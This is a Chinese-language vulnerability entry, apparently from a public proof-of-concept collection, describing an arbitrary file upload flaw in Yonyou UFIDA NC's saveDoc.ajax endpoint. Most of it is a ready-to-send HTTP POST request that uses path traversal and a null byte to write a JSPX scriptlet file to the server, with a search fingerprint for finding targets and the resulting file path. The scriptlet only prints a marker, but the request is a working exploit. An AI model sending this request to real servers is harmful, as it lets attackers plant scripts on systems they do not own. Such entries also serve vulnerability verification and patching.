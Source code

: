 ﻿# 用友-UFIDA-NC saveDoc.ajax 存在任意文件上传漏洞

> 更新时间：2024-03-08

> 漏洞编号：

> 漏洞说明：用友NC Cloud大型企业数字化平台，深度应用新一代数字智能技术，完全基于云原生架构，打造开放、互联、融合、智能的一体化云平台，聚焦数智化管理、数智化经营、数智化商业等三大企业数智化转型战略方向，提供涵盖数字营销、财务共享、全球司库、智能制造、敏捷供应链、人才管理、智慧协同等18大解决方案，帮助大型企业全面落地数智化。

用友-UFIDA-NC saveDoc.ajax 存在任意文件上传，攻击者可通过此漏洞上传恶意脚本文件，对服务器的正常运行造成安全威胁！

> 漏洞特征：title="产品登录界面"

> 验证脚本：HTTP

```
POST /uapws/saveDoc.ajax?ws=/../../dudesite.jspx%00 HTTP/1.1
Content-Type: application/x-www-form-urlencoded

content=<hi xmlns:hi="http://java.sun.com/JSP/Page">
      <hi:directive.page import="java.util.*,java.io.*,java.net.*"/>
   <hi:scriptlet>
            out.println("dudesite");
   </hi:scriptlet>
</hi>


```

> 响应代码特征：200

> 响应内容特征：

> 上传文件定位：/uapws/dudesite.jspx

> 验证文件来源：用友-UFIDA-NC saveDoc.ajax 存在任意文件上传漏洞.poc

